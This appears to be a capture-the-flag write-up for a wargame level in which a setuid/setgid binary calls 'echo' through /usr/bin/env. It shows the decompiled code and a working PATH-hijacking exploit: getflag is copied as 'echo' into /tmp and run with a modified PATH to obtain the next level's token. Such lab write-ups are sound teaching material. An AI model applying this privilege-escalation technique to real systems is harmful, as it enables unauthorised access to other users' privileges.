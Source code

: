 # Level 03

## Initial Context

- A single executable file: `level03`

## Solving the Challenge

### Analyzing

Running the executable file show:

```bash
$ ./level03
Exploit me
```

So let's decompile the file to see what is inside:

```c
int main()
{
    gid_t gid = getegid();
    uid_t uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    return (system("/usr/bin/env echo Exploit me"));
}
```

The `man`ual can tell us:
- `setresgid(rgid, egid, sgid)`: sets the real GID, effective GID, and saved set-group-ID of the calling process.
- `getgid()`: returns the effective group ID of the calling process.

The `u` (or user) versions are the same but for users instead of groups. (`getegid()` and `setresuid(ruid, euid, suid)`)

Using these means that we can elevate privileges of the current process to inherit permission of another group.

```bash
$ ls -la level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

We can see that the group permission has a `s` instead of a `x`. Allowing a caller to elevate the process to `flag03`'s group permissions. Basically running the process as him.

### Exploiting

By creating an executable named `echo` and adding it to the path, the process will execute it with the same privileges as `flag03`.

If this process is `getflag`, we should get the flag.

`level03` user cannot write anywhere (not even in his own home), and cannot even `ls` the `/tmp` directory. Creating a custom directory and copying `getflag` as `echo` in it should do the trick.

```bash
$ mkdir /tmp/level03
$ cp $(which getflag) /tmp/level03/echo
```

Then run the executable with a custom path:

```bash
$ PATH=/tmp/level03 ./level03
Check flag.Here is your token : ....
```

**Success!**

For this level there is no flag, but we have the password for the next level.